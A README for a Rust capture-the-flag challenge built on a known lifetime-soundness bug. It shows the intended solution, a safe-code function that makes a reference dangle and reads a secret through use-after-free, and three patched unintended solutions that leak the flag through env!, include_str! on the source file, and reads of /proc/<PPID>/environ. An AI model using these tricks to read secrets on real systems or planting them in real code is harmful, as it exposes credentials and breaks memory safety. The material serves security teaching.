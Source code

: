 # a_happy_life

Demo for a CTF challenge based on [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860).

## Idea

This challenge exploits a unsoundness hole discovered in Rust lifetime deduction system. When a type like `&'a &'b ()` is encountered, the compiler implicitly relies upon `'b: 'a`, which could be broken by contravariance.

See [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860) for the original issue. A more theoretical yet neater explanation can be found on https://counterexamples.org/nearly-universal.html.

## Build environment

* `rustc` on `PATH`. Tested with these compilers:
  * `rustc 1.76.0-nightly (d86d65bbc 2023-12-10)`
  * `rustc 1.74.0 (79e9716c9 2023-11-13) (built from a source tarball)`
* `clippy-driver` on `PATH`. Tested with these `clippy` versions:
  * `clippy 0.1.76 (d86d65bb 2023-12-10)`
* Flag in environment variable `FLAG`

Run this command to start the challenge (either Release or Debug build is okay):

```bash
cargo run -r
# or
cargo run
```

## Problem

Given the following program snippet, find appropriate code to fill in the two blanks (`part_1.in` and `part_2.in`) so as to read variable `_secret` under the conditions that:

* No `unsafe` code allowed
* No references to `_secret`
* No `std` linkage except the global allocator

```rust
// main.rs
#![no_std]
#![allow(clippy::all)]
#![forbid(unsafe_code)]
#![forbid(clippy::disallowed_macros)]

extern crate my_proxy;
extern crate alloc;
use alloc::string::String;

include!("part_1.in");

fn main() {
    let x = include!("part_2.in");
    let _secret = String::from("@@FLAG@@");
    my_proxy::print(&x);
}
```

Crate `my_proxy` is a wrapper crate linked to `std`, but it pulls in only the global allocator and the `println!` macro.

```rust
// my_proxy.rs
pub use std::alloc::System;

#[global_allocator]
static GLOBAL: System = System;

pub fn print(s: &str) {
    println!("my_proxy::print(s: &str) says: {}", s);
}
```

## Solutions

### Intended solution

`part_1.in`:

```rust
// Create "any-to-any" lifetime cast function.
fn aux<'a, 'b, T>(_: Option<&'a &'b ()>, v: &'b T) -> &'a T { v }

fn exp<'c, 'd, T>(x: &'c T) -> &'d T {
    let f: fn(Option<&'d &'d ()>, &'c T) -> &'d T = aux;
    f(None, x)
}
```

`part_2.in`:

```rust
{
    // Create a local variable whose memory location may coincide with `_secret`.
    // The length of the `&'static str` literal should be the same as `_secret`,
    // so as to maximize the likelihood of such coincidence.
    let local = String::from("aaaabaaacaaadaaa");
    // Make the reference dangle!
    exp(&local)
}
```

#### Explanation

The value `local` is dropped once it leaves its scope. But as the compiler thinks that `x`, as a reference to `local`, has a longer lifetime, it dangles after the destruction of `local`. Now, `x` could possibly (in fact, almost always, with `-C opt_level=0` and glibc malloc or Windows HeapAlloc) point to the memory space subsequently allocated for `_secret`, creating a use-after-free scenario.

### Unintended solution 1 (fixed in `v0.1.1`)

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ env!("FLAG", "what?") }
```

#### Analysis

Macro `core::env!` could be used to fetch env vars at compile time.

#### Fix

Remove exposed `FLAG` env var when calling `rustc`.

### Unintended solution 2 (fixed in `v0.1.2`)

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ include_str!("main.rs") }
```

#### Analysis

Macro `core::include_str!` could be used to include arbitrary files at compile time.

#### Fix

Add randomized UUID to filename `main.rs`. No other actions are required, since `core::include_str!` will not leak anything else given that the privileges of filesystem are properly set.

### Unintended solution 3 (unconfirmed, fixed in `v0.1.4`)

On the first connection, supply these input:

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ include_str!("/proc/self/status") }
```

Then write down the parent PID (`PPID`) in the output.

On the second connection, supply these:

`part_1.in`:

```rust

```

`part_2.in`:

```rust
{ include_str!("/proc/<PPID>/environ") }
```

#### Analysis

Trivial.

#### Fix

Ban `core::include_str!` and `core::include_bytes!` with Clippy rules.

